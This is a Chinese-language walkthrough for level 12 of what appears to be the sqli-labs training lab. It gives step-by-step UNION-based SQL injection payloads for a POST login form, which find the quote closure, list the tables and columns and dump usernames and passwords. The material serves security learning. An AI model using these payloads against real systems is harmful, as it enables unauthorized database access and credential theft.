





# Less - 12

---

# 通关教程

---

## 1、判断闭合

---

```html
uname=admin'&passwd=admin&submit=Submit #页面不报错
uname=admin"&passwd=admin&submit=Submit #页面有错误显示
```

​​

​​

根据输入"时的报错信息我们确定闭合方式为")，也确定为字符型注入

---

## 2、查看当前数据库

---

```html
uname=a") union select 1,database()#&passwd=admin&submit=Submit
```

​​

---

## 3、查看security库下的所有表

---

```html
uname=a") union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security')#&passwd=admin&submit=Submit
```

​​

---

## 4、查看users表下的所有字段

---

```html
uname=a") union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')#&passwd=admin&submit=Submit
```

​​

---

## 5、查看username和password字段的值

---

```html
uname=a") union select 1,(select group_concat(username,password) from security.users)#&passwd=admin&submit=Submit
```

​​

‍
